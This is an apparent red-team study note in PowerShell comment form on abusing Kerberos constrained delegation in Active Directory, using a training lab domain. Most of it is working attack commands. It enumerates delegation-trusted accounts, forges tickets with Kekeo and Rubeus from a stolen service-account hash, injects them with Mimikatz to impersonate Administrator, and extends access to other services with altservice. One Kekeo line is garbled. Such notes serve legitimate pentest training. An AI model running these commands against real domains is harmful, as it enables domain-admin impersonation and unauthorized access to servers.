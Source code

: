 ```powershell
# Introduced in Windows Server 2008
# It restricts the target of the delegation to a select Service on a selected computer
# It works on a computer or Service account that has the two attributes:
# - TRUSTED_TO_AUTH_FOR_DELEGATION (indicates the acccount can delegate)
# - msDS-AllowToDelegateTo

# It is usually used for "protocol transition", such as a service (website) with authentication tthat doesn't support kerberos.
# The service account is trusted to delegate to a backend  service

# There are two steps in the delegation (example: user joe connects to webservice (websvc) that has a CIFS backend)
# - S4U2Self: the service account request a TGS for itself on behalf of the user
# - S4U2Proxy: the service can now ask a TGS for the backend service on behalf of the user

# Attack Scenario: service account trusted for delegation is compromised (example: local admin on the server)
# This means that all TGS requested can be decrytped because hash of the Service account is known
# This exposes the TGS of the delegated (target) user that needs to connect to ther backend service (target)
# There is no restriction on the target user: this means that the attacker can access to the target backend service as Domain admin

# Enumeraton of trusted account
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# With AD Module: 
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

# Attack example with Kekeo (websvc is trusted to delegate to cIFS backend on dcorp-mssql)

# Requesting TGT for the service account (it creates a file containing the kerberos ticket)
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:<hash of websvc>

# Requesting TGS for administrator to access CIFS on dcorp-mssql (it creates a TGS ticket file)
kek/tgt:<ticket_file_previous_step> /user:Administrator@<domain> /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local

# Use Mimikatz to inject the TGS (pass-the-ticket) obtained in the previous step
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'

# Profit
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$

# Attack with Rubes (alternative to kekeo)
# Requesting TGT and TGS
.\Rubeus.exe s4u /user:websvc /aes256:<hash_of_websvc> /impersonateuser:Administrator /msdsspn:CIFS/dollarcorp.moneycorp.local /ptt

# Interesting note on Constrained delegation
# Since there is lack of SPN check it's possible to extend access to other target service (like HOST,ldap,etc...)
# IN Rubeus it's possible with the option "/altservice:HOST"
# In kekeo it's possible to specify two service target with the | as separator

kekeo# ... /service:CIFS/server.dollarcorp.moneycorp.LOCAL|ldap/erver.dollarcorp.moneycorp.LOCAL
```
